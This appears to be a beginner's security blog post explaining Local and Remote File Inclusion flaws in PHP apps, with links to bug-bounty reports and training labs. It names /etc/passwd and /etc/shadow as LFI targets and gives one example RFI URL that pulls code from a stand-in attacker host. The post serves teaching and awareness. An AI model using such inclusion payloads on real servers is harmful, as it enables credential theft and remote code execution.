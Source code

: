 # <center> RFI and LFI, how to find them and what’s the difference between them? </center>

Hello everyone! Today I'm writing my first blog about two really similiar vulnerabilities.
File Inclusions are mostly found in PHP Applications, they are the result of using <code> include() </code> incorrectly 
(for the most cases). In addition they can be found in Node JS and Python Apps too. People sometimes can't make the difference 
between those two similiar vulnerabilities, that's okay because in today's blog I'll try to explain it on some easy examples.
Let's see now:
In the easiest way if we want to explain it
When hacker is exploiting RFI he uses a Remote File while on the other side LFI uses local files when they are attacking server,
even the name of the vulnerability tells you that. While exploiting LFI you can get response from the local files on system, 
for example <code> /etc/passwd </code> or <code> /etc/shadow </code>.
<img src="lfi-example.png"/>
<br>
On the other hand while exploiting RFI you can upload file from remote server which in 99% will result in 
RCE(Remote Code Execution). For example <code> https://www.site.com/app.php?file=http://attackers.website.com/file.php </code>.
You could execute malicious code from the <code> file.php </code> file and use it for evil intention.
LFI is way more popular than RFI because nowadays it is way easier to protect against including Remote Malicious Files, but
you never know 🙂. 
File Inclusion Vulnerabilities are ranked critical since they can cause server-side injections and in most cases you can get RCE.

# > Some File Inlusion Reports:
<a href="https://hackerone.com/reports/59665"> Local File Inclusion Vulnerability in Concrete5 version 5.7.3.1 </a> <br>
<a href="https://hackerone.com/reports/895972"> Limited LFI </a> <br>
<a href="https://bugreader.com/updatelap@local-file-inclusion-in-peeringgooglecom-70"> Local File Inclusion in peering.google.com </a> <br>

# > Some More Content About File Inclusions
<a href="https://book.hacktricks.xyz/pentesting-web/file-inclusion"> HackTricks </a> <br>
<a href="https://tryhackme.com/room/inclusion"> TryHackMe </a> <br>
<a href="https://dvwa.co.uk/"> DVWA </a> <br>

That was it for this blog, I hope you enjoyed it and would like you to follow my <a href="https://twitter.com/ArikSyer"> Twitter </a>
so you get notified when I post another blog.

